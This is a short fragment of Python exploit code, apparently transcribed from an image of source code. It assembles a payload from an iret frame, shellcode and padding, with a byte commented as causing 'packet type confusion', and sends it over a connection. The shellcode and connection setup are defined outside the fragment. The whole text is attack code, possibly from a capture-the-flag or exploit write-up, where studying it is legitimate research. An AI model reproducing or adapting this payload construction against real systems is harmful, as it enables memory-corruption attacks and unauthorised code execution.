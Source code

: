 ```python
iret += p32(0x53)			    

buf += iret
buf += sc
buf += b"A"*(0x0f00-len(iret)-len(sc))
buf += b"X" # X leads to packet type confusion
buf += b"B"*0x07 # we want pops, avoid pushs
p.send(buf)
p.recv(1)
p.close() 
```